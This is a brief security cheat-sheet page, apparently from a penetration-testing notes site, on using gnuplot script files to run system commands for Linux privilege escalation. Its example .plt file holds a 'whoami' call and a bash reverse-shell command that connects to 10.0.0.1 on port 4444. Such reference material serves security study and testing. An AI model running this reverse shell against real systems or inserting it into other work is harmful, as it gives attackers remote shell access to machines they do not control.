 ```yaml
---
title: Gnuplot Privilege Escalation
description: gnuplot is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
tags:
    - Linux
    - Privilege Escalation
refs:
    - http://gnuplot.info/docs_5.5/loc18483.html
date: 2023-06-19
draft: false
---
```


## Command Execution

The script file of **`gnuplot`** can be used to execute system commands as below.

```bash
gnuplot test.plt
```

Contents of the **`.plt`** is like the following.

```bash
system "whoami"

# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'"
```
